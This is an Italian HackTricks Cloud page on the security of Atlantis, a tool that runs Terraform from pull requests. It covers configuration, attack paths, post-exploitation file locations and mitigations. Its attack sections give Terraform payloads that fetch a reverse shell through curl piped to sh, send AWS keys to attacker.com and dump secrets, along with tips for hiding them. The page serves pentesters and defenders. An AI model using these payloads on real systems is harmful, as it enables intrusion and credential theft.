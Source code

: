 # Sicurezza di Atlantis

<details>

{% hint style="success" %}
Impara e pratica l'Hacking di AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica l'Hacking di GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Sostieni HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository di Github.

</details>
{% endhint %}

## Informazioni di Base

Atlantis ti aiuta fondamentalmente ad eseguire terraform dalle Pull Requests dal tuo server git.

![](<../.gitbook/assets/image (161).png>)

## Laboratorio Locale

1. Vai alla **pagina dei rilasci di atlantis** su [https://github.com/runatlantis/atlantis/releases](https://github.com/runatlantis/atlantis/releases) e **scarica** quella che fa al caso tuo.
2. Crea un **token personale** (con accesso al repository) del tuo utente **github**
3. Esegui `./atlantis testdrive` e creerà un **repo demo** che puoi usare per **interagire con atlantis**
1. Puoi accedere alla pagina web su 127.0.0.1:4141

## Accesso ad Atlantis

### Credenziali del Server Git

**Atlantis** supporta diversi host git come **Github**, **Gitlab**, **Bitbucket** e **Azure DevOps**.\
Tuttavia, per accedere ai repository su queste piattaforme e eseguire azioni, è necessario concedere loro un certo **accesso privilegiato** (almeno permessi di scrittura).\
[**La documentazione**](https://www.runatlantis.io/docs/access-credentials.html#create-an-atlantis-user-optional) incoraggia a creare un utente specifico per Atlantis su queste piattaforme, ma alcune persone potrebbero utilizzare account personali.

{% hint style="warning" %}
In ogni caso, dal punto di vista di un attaccante, l'**account di Atlantis** sarà molto **interessante da compromettere**.
{% endhint %}

### Webhook

Atlantis utilizza facoltativamente [**Segreti del Webhook**](https://www.runatlantis.io/docs/webhook-secrets.html#generating-a-webhook-secret) per convalidare che i **webhook** ricevuti dal tuo host Git siano **legittimi**.

Un modo per confermare ciò sarebbe **consentire le richieste solo dai IP** del tuo host Git, ma un modo più semplice è utilizzare un Segreto del Webhook.

Nota che a meno che tu non stia utilizzando un server github o bitbucket privato, dovrai esporre i punti finali del webhook su Internet.

{% hint style="warning" %}
Atlantis sta per **esporre i webhooks** in modo che il server git possa inviargli informazioni. Dal punto di vista di un attaccante sarebbe interessante sapere **se è possibile inviargli messaggi**.
{% endhint %}

### Credenziali del Provider <a href="#provider-credentials" id="provider-credentials"></a>

[Dalla documentazione:](https://www.runatlantis.io/docs/provider-credentials.html)

Atlantis esegue Terraform semplicemente **eseguendo i comandi `terraform plan` e `apply`** sul server **dove è ospitato Atlantis**. Proprio come quando esegui Terraform in locale, Atlantis ha bisogno di credenziali per il tuo provider specifico.

Spetta a te come [fornire le credenziali](https://www.runatlantis.io/docs/provider-credentials.html#aws-specific-info) per il tuo provider specifico ad Atlantis:

* Il Chart di Atlantis [Helm](https://www.runatlantis.io/docs/deployment.html#kubernetes-helm-chart) e il Modulo [AWS Fargate](https://www.runatlantis.io/docs/deployment.html#aws-fargate) hanno i loro meccanismi per le credenziali del provider. Leggi le loro documentazioni.
* Se stai eseguendo Atlantis in un cloud, molti cloud hanno modi per dare accesso all'API cloud alle applicazioni in esecuzione su di essi, ad esempio:
* [Ruoli EC2 di AWS](https://registry.terraform.io/providers/hashicorp/aws/latest/docs) (Cerca "Ruolo EC2")
* [Account di servizio delle istanze GCE](https://registry.terraform.io/providers/hashicorp/google/latest/docs/guides/provider\_reference)
* Molti utenti impostano variabili d'ambiente, ad es. `AWS_ACCESS_KEY`, dove Atlantis è in esecuzione.
* Altri creano i file di configurazione necessari, ad es. `~/.aws/credentials`, dove Atlantis è in esecuzione.
* Usa il [Provider Vault di HashiCorp](https://registry.terraform.io/providers/hashicorp/vault/latest/docs) per ottenere le credenziali del provider.

{% hint style="warning" %}
Il **contenitore** dove **Atlantis** è **in esecuzione** con molta probabilità conterrà credenziali privilegiate per i provider (AWS, GCP, Github...) che Atlantis sta gestendo tramite Terraform.
{% endhint %}

### Pagina Web

Per impostazione predefinita Atlantis eseguirà una **pagina web sulla porta 4141 in localhost**. Questa pagina ti consente semplicemente di abilitare/disabilitare l'applicazione di atlantis e controllare lo stato del piano dei repository e sbloccarli (non consente di modificare le cose, quindi non è così utile).

Probabilmente non la troverai esposta su Internet, ma sembra che per impostazione predefinita **non siano necessarie credenziali** per accedervi (e se lo sono `atlantis`:`atlantis` sono le credenziali **predefinite**).

## Configurazione del Server

La configurazione del `server atlantis` può essere specificata tramite flag della riga di comando, variabili d'ambiente, un file di configurazione o una combinazione dei tre.

* Puoi trovare [**qui l'elenco dei flag**](https://www.runatlantis.io/docs/server-configuration.html#server-configuration) supportati dal server Atlantis
* Puoi trovare [**qui come trasformare un'opzione di configurazione in una variabile d'ambiente**](https://www.runatlantis.io/docs/server-configuration.html#environment-variables)

I valori sono **scelti in questo ordine**:

1. Flag
2. Variabili d'ambiente
3. File di configurazione

{% hint style="warning" %}
Nota che nella configurazione potresti trovare valori interessanti come **token e password**.
{% endhint %}

### Configurazione dei Repository

Alcune configurazioni influenzano **come i repository sono gestiti**. Tuttavia, è possibile che **ogni repository richieda impostazioni diverse**, quindi ci sono modi per specificare ciascun repository. Questo è l'ordine di priorità:

1. File [**`/atlantis.yml`**](https://www.runatlantis.io/docs/repo-level-atlantis-yaml.html#repo-level-atlantis-yaml-config) del repository. Questo file può essere utilizzato per specificare come atlantis dovrebbe trattare il repository. Tuttavia, per impostazione predefinita alcune chiavi non possono essere specificate qui senza alcuni flag che lo consentano.
1. Probabilmente richiesto di essere consentito da flag come `allowed_overrides` o `allow_custom_workflows`
2. [**Configurazione Lato Server**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config): Puoi passarla con il flag `--repo-config` ed è un yaml che configura nuove impostazioni per ciascun repository (supporta regex)
3. Valori **predefiniti**
#### Protezioni PR

Atlantis consente di indicare se si desidera che il **PR** venga **`approvato`** da qualcun altro (anche se non è impostato nella protezione del branch) e/o sia **`mergiabile`** (protezioni del branch superate) **prima di eseguire l'apply**. Da un punto di vista della sicurezza, è consigliabile impostare entrambe le opzioni.

Nel caso in cui `allowed_overrides` sia True, queste impostazioni possono essere **sovrascritte su ciascun progetto tramite il file `/atlantis.yml`**.

#### Script

La configurazione del repository può **specificare script** da eseguire [**prima**](https://www.runatlantis.io/docs/pre-workflow-hooks.html#usage) (_pre workflow hooks_) e [**dopo**](https://www.runatlantis.io/docs/post-workflow-hooks.html) (_post workflow hooks_) l'esecuzione di un **workflow**.

Non esiste alcuna opzione per consentire di **specificare** questi script nel **file `/atlantis.yml`** del repository.

#### Workflow

Nella configurazione del repository (configurazione lato server) è possibile [**specificare un nuovo flusso di lavoro predefinito**](https://www.runatlantis.io/docs/server-side-repo-config.html#change-the-default-atlantis-workflow), o [**creare nuovi flussi di lavoro personalizzati**](https://www.runatlantis.io/docs/custom-workflows.html#custom-workflows)**.** È inoltre possibile **specificare** quali **repository** possono **accedere** a quelli **nuovi** generati.\
Successivamente, è possibile consentire al file **atlantis.yaml** di ciascun repository di **specificare il flusso di lavoro da utilizzare.**

{% hint style="danger" %}
Se il flag [**configurazione lato server**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) `allow_custom_workflows` è impostato su **True**, i flussi di lavoro possono essere **specificati** nel file **`atlantis.yaml`** di ciascun repository. Potrebbe essere necessario che **`allowed_overrides`** specifichi anche **`workflow`** per **sovrascrivere il flusso di lavoro** che verrà utilizzato.\
Questo darà fondamentalmente **RCE nel server Atlantis a qualsiasi utente che può accedere a quel repository**.
```yaml
# atlantis.yaml
version: 3
projects:
- dir: .
workflow: custom1
workflows:
custom1:
plan:
steps:
- init
- run: my custom plan command
apply:
steps:
- run: my custom apply command
```
{% endhint %}

#### Controllo delle policy Conftest

Atlantis supporta l'esecuzione delle **policy** **server-side** [**conftest**](https://www.conftest.dev/) contro l'output del piano. I casi d'uso comuni per l'utilizzo di questo passaggio includono:

* Negare l'uso di un elenco di moduli
* Assegnare attributi di una risorsa al momento della creazione
* Catturare eliminazioni non intenzionali di risorse
* Prevenire rischi per la sicurezza (ad esempio, esporre porte sicure al pubblico)

Puoi verificare come configurarlo nella [**documentazione**](https://www.runatlantis.io/docs/policy-checking.html#how-it-works).

## Comandi di Atlantis

Nella [**documentazione**](https://www.runatlantis.io/docs/using-atlantis.html#using-atlantis) puoi trovare le opzioni che puoi utilizzare per eseguire Atlantis:
```bash
# Get help
atlantis help

# Run terraform plan
atlantis plan [options] -- [terraform plan flags]
##Options:
## -d directory
## -p project
## --verbose
## You can also add extra terraform options

# Run terraform apply
atlantis apply [options] -- [terraform apply flags]
##Options:
## -d directory
## -p project
## -w workspace
## --auto-merge-disabled
## --verbose
## You can also add extra terraform options
```
## Attacchi

{% hint style="warning" %}
Se durante l'exploitation trovi questo **errore**: `Error: Error acquiring the state lock`

Puoi risolverlo eseguendo:
```
atlantis unlock #You might need to run this in a different PR
atlantis plan -- -lock=false
```
{% endhint %}

### Pianificazione RCE di Atlantis - Modifica della configurazione in una nuova PR

Se hai accesso in scrittura su un repository, sarai in grado di creare un nuovo branch su di esso e generare una PR. Se puoi **eseguire `atlantis plan`** (o forse viene eseguito automaticamente) **sarai in grado di eseguire RCE all'interno del server di Atlantis**.

Puoi farlo facendo [**caricare ad Atlantis una fonte di dati esterna**](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source). Basta inserire un payload come il seguente nel file `main.tf`:
```json
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Attacco più stealth

Puoi eseguire questo attacco in modo ancora più stealth, seguendo questi suggerimenti:

* Invece di aggiungere direttamente la shell rev nel file terraform, puoi **caricare una risorsa esterna** che contiene la shell rev:
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Puoi trovare il codice rev shell in [https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules](https://github.com/carlospolop/terraform\_external\_module\_rev\_shell/tree/main/modules)

* Nella risorsa esterna, utilizza la funzionalità **ref** per nascondere il **codice rev shell di terraform in un branch** all'interno del repository, qualcosa del genere: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`
* **Invece** di creare una **PR su master** per attivare Atlantis, **crea 2 branch** (test1 e test2) e crea una **PR da uno all'altro**. Quando hai completato l'attacco, basta **rimuovere la PR e i branch**.

### Atlantis plan Secrets Dump

Puoi **scaricare i segreti utilizzati da terraform** eseguendo `atlantis plan` (`terraform plan`) inserendo qualcosa del genere nel file terraform:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
### Atlantis applica RCE - Modifica della configurazione in una nuova PR

Se hai accesso in scrittura su un repository, sarai in grado di creare un nuovo branch su di esso e generare una PR. Se puoi **eseguire `atlantis apply` sarai in grado di eseguire RCE all'interno del server Atlantis**.

Tuttavia, di solito dovrai aggirare alcune protezioni:

- **Fusibile**: Se questa protezione è impostata in Atlantis, puoi eseguire **`atlantis apply` solo se la PR è fusibile** (il che significa che la protezione del branch deve essere aggirata).
- Controlla potenziali [**aggiramenti delle protezioni del branch**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)
- **Approvato**: Se questa protezione è impostata in Atlantis, **un altro utente deve approvare la PR** prima che tu possa eseguire `atlantis apply`
- Per impostazione predefinita, puoi abusare del [**token Gitbot per aggirare questa protezione**](https://github.com/carlospolop/hacktricks-cloud/blob/master/pentesting-ci-cd/broken-reference/README.md)

Eseguendo **`terraform apply` su un file Terraform malintenzionato con** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Devi solo assicurarti che qualche payload come quelli seguenti finisca nel file `main.tf`:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Segui i **suggerimenti della tecnica precedente** per eseguire questo attacco in modo più **furtivo**.

### Iniezione di Parametri Terraform

Quando si esegue `atlantis plan` o `atlantis apply` terraform viene eseguito sotto-needs, è possibile passare comandi a terraform da atlantis commentando qualcosa del genere:
```bash
atlantis plan -- <terraform commands>
atlantis plan -- -h #Get terraform plan help

atlantis apply -- <terraform commands>
atlantis apply -- -h #Get terraform apply help
```
Qualcosa che puoi passare sono le variabili di ambiente che potrebbero essere utili per aggirare alcune protezioni. Controlla le variabili di ambiente di Terraform in [https://www.terraform.io/cli/config/environment-variables](https://www.terraform.io/cli/config/environment-variables)

### Flusso Personalizzato

Eseguire **comandi di build personalizzati maligni** specificati in un file `atlantis.yaml`. Atlantis utilizza il file `atlantis.yaml` dal ramo della richiesta di pull, **non** da `master`.\
Questa possibilità è stata menzionata in una sezione precedente:

{% hint style="danger" %}
Se il flag di configurazione lato server [**allow_custom_workflows**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) è impostato su **True**, i flussi di lavoro possono essere **specificati** nel file **`atlantis.yaml`** di ciascun repository. Potrebbe anche essere necessario che **`allowed_overrides`** specifichi anche **`workflow`** per **sovrascrivere il flusso di lavoro** che verrà utilizzato.

Questo darà fondamentalmente **RCE nel server Atlantis a qualsiasi utente che può accedere a quel repository**.
```yaml
# atlantis.yaml
version: 3
projects:
- dir: .
workflow: custom1
workflows:
custom1:
plan:
steps:
- init
- run: my custom plan command
apply:
steps:
- run: my custom apply command
```
{% endhint %}

### Ignorare le protezioni del piano/apply

Se il flag [**configurazione lato server**](https://www.runatlantis.io/docs/server-side-repo-config.html#server-side-config) `allowed_overrides` _ha_ `apply_requirements` configurato, è possibile per un repository **modificare le protezioni del piano/apply per ignorarle**.
```yaml
repos:
- id: /.*/
apply_requirements: []
```
### Dirottamento PR

Se qualcuno invia **commenti `atlantis plan/apply` sui tuoi pull request validi,** farà eseguire terraform quando non lo desideri.

Inoltre, se non hai configurato nella **protezione del branch** di chiedere di **riesaminare** ogni PR quando viene effettuato un **nuovo commit**, qualcuno potrebbe **scrivere configurazioni maligne** (controlla scenari precedenti) nel file di configurazione di terraform, eseguire `atlantis plan/apply` e ottenere RCE.

Questa è l'impostazione nelle protezioni del branch di Github:

![](<../.gitbook/assets/image (216).png>)

### Segreto del Webhook

Se riesci a **rubare il segreto del webhook** utilizzato o se **non viene utilizzato alcun segreto del webhook**, potresti **chiamare il webhook di Atlantis** e **invocare comandi di atlantis** direttamente.

### Bitbucket

Bitbucket Cloud **non supporta i segreti del webhook**. Ciò potrebbe consentire agli attaccanti di **spoofare le richieste da Bitbucket**. Assicurati di consentire solo gli IP di Bitbucket.

* Ciò significa che un **attaccante** potrebbe inviare **richieste false ad Atlantis** che sembrano provenire da Bitbucket.
* Se stai specificando `--repo-allowlist` allora potrebbero inviare solo richieste false relative a quei repository, quindi il danno maggiore che potrebbero fare sarebbe pianificare/applicare sui tuoi stessi repository.
* Per prevenire ciò, permetti solo [gli indirizzi IP di Bitbucket](https://confluence.atlassian.com/bitbucket/what-are-the-bitbucket-cloud-ip-addresses-i-should-use-to-configure-my-corporate-firewall-343343385.html) (vedi Indirizzi IP IPv4 in uscita).

## Post-Esploitation

Se sei riuscito ad accedere al server o almeno hai ottenuto un LFI ci sono alcune cose interessanti che dovresti provare a leggere:

* `/home/atlantis/.git-credentials` Contiene credenziali di accesso al vcs
* `/atlantis-data/atlantis.db` Contiene credenziali di accesso al vcs con più informazioni
* `/atlantis-data/repos/<org_name>`_`/`_`<repo_name>/<pr_num>/<workspace>/<path_to_dir>/.terraform/terraform.tfstate` File di stato di Terraform
* Esempio: /atlantis-data/repos/ghOrg\_/\_myRepo/20/default/env/prod/.terraform/terraform.tfstate
* `/proc/1/environ` Variabili di ambiente
* `/proc/[2-20]/cmdline` Linea di comando di `atlantis server` (potrebbe contenere dati sensibili)

## Mitigazioni

### Non Utilizzare Su Repository Pubblici <a href="#don-t-use-on-public-repos" id="don-t-use-on-public-repos"></a>

Poiché chiunque può commentare su pull request pubblici, anche con tutte le mitigazioni di sicurezza disponibili, è comunque pericoloso eseguire Atlantis su repository pubblici senza una corretta configurazione delle impostazioni di sicurezza.

### Non Utilizzare `--allow-fork-prs` <a href="#don-t-use-allow-fork-prs" id="don-t-use-allow-fork-prs"></a>

Se stai eseguendo su un repository pubblico (cosa non consigliata, vedi sopra) non dovresti impostare `--allow-fork-prs` (impostato su false di default) perché chiunque può aprire una pull request dal proprio fork al tuo repository.

### `--repo-allowlist` <a href="#repo-allowlist" id="repo-allowlist"></a>

Atlantis richiede di specificare un elenco di repository che accetterà i webhook tramite il flag `--repo-allowlist`. Ad esempio:

* Repository specifici: `--repo-allowlist=github.com/runatlantis/atlantis,github.com/runatlantis/atlantis-tests`
* Tua intera organizzazione: `--repo-allowlist=github.com/runatlantis/*`
* Ogni repository nella tua installazione GitHub Enterprise: `--repo-allowlist=github.yourcompany.com/*`
* Tutti i repository: `--repo-allowlist=*`. Utile quando sei in una rete protetta ma pericoloso senza impostare anche un segreto del webhook.

Questo flag garantisce che la tua installazione di Atlantis non venga utilizzata con repository che non controlli. Consulta `atlantis server --help` per ulteriori dettagli.

### Proteggere la Pianificazione di Terraform <a href="#protect-terraform-planning" id="protect-terraform-planning"></a>

Se gli attaccanti che inviano pull request con codice Terraform maligno sono nel tuo modello di minaccia, devi essere consapevole che le approvazioni di `terraform apply` non sono sufficienti. È possibile eseguire codice maligno in una `terraform plan` utilizzando il [data source `external`](https://registry.terraform.io/providers/hashicorp/external/latest/docs/data-sources/data\_source) o specificando un provider maligno. Questo codice potrebbe quindi esfiltrare le tue credenziali.

Per prevenire ciò, potresti:

1. Integrare i provider nell'immagine di Atlantis o nell'host e negare l'uscita in produzione.
2. Implementare il protocollo del registro dei provider internamente e negare l'uscita pubblica, in modo da controllare chi ha accesso in scrittura al registro.
3. Modificare il [configurazione del repository lato server](https://www.runatlantis.io/docs/server-side-repo-config.html)'s `plan` per convalidare l'uso di provider o data source non consentiti o PR da utenti non consentiti. Potresti anche aggiungere una convalida aggiuntiva in questo punto, ad esempio richiedendo un "ok" sulla PR prima di consentire al `plan` di continuare. Conftest potrebbe essere utile in questo caso.

### Segreti del Webhook <a href="#webhook-secrets" id="webhook-secrets"></a>

Atlantis dovrebbe essere eseguito con i segreti del Webhook impostati tramite le variabili d'ambiente `$ATLANTIS_GH_WEBHOOK_SECRET`/`$ATLANTIS_GITLAB_WEBHOOK_SECRET`. Anche con il flag `--repo-allowlist` impostato, senza un segreto del webhook, gli attaccanti potrebbero inviare richieste ad Atlantis fingendo di provenire da un repository che è nella lista consentita. I segreti del webhook garantiscono che le richieste del webhook provengano effettivamente dal tuo fornitore VCS (GitHub o GitLab).

Se stai utilizzando Azure DevOps, anziché i segreti del webhook aggiungi un nome utente e una password di base.

### Autenticazione di Base di Azure DevOps <a href="#azure-devops-basic-authentication" id="azure-devops-basic-authentication"></a>

Azure DevOps supporta l'invio di un'intestazione di autenticazione di base in tutti gli eventi del webhook. Ciò richiede l'utilizzo di un URL HTTPS per la posizione del tuo webhook.

### SSL/HTTPS <a href="#ssl-https" id="ssl-https"></a>

Se stai utilizzando segreti del webhook ma il traffico è su HTTP, i segreti del webhook potrebbero essere rubati. Abilita SSL/HTTPS utilizzando i flag `--ssl-cert-file` e `--ssl-key-file`.

### Abilita l'Autenticazione sul Server Web di Atlantis <a href="#enable-authentication-on-atlantis-web-server" id="enable-authentication-on-atlantis-web-server"></a>

È molto consigliabile abilitare l'autenticazione nel servizio web. Abilita BasicAuth utilizzando `--web-basic-auth=true` e configura un nome utente e una password utilizzando i flag `--web-username=yourUsername` e `--web-password=yourPassword`.

Puoi anche passare queste come variabili d'ambiente `ATLANTIS_WEB_BASIC_AUTH=true` `ATLANTIS_WEB_USERNAME=yourUsername` e `ATLANTIS_WEB_PASSWORD=yourPassword`.

## Riferimenti

* [**https://www.runatlantis.io/docs**](https://www.runatlantis.io/docs)
* [**https://www.runatlantis.io/docs/provider-credentials.html**](https://www.runatlantis.io/docs/provider-credentials.html)

<details>

{% hint style="success" %}
Impara e pratica l'Hacking su AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica l'Hacking su GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Sostieni HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
